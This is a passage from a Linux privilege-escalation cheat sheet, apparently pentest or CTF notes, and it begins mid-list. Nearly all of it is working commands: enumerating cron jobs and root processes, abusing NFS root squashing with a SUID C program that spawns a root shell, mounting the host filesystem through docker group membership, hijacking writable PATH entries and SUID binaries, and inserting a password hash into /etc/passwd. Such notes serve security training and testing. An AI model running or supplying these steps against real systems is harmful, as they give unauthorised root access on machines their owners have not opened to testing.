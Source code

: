 ```bash
cat /etc/crontab
crontab -e -u user
```

checkout other root processs :
```
./pspy64 -pf -i 1000
```

###  NFS Root Squashing:
```bash
cat /etc/exports
grep "nfs" /var/log/syslog
showmount -e MACHINE_IP(target ip)
mkdir /tmp/1
mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x

victum:
chmod +s /tmp/1/x
```

###  Escalation-Path-Docker:
if the user is member of docker:
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```


###  $PATH is Dangerous:

```bash
echo $PATH
~/.bash_profile
~/.bashrc
~/.profile
sudo cat /etc/sudoers | grep secure_path
find / -perm -4000 -user root -type f 2>/dev/null #checkout root user with suid bit set
for dir in $(echo $PATH | tr ':' '\n'); do [ -w "$dir" ] && echo "[+] Writable: $dir"; done #Path directory writetable permission.

#malicious file run by root user with suid bit set.
cp /bin/bash /tmp/ls
chmod +x /tmp/ls


```


> [!INFO]
> Editing /etc/passwd File for Privilege Escalation .
> openssl passwd raj
> write these hash in x position of /etc/passwd of user. if passwd have rwx permission

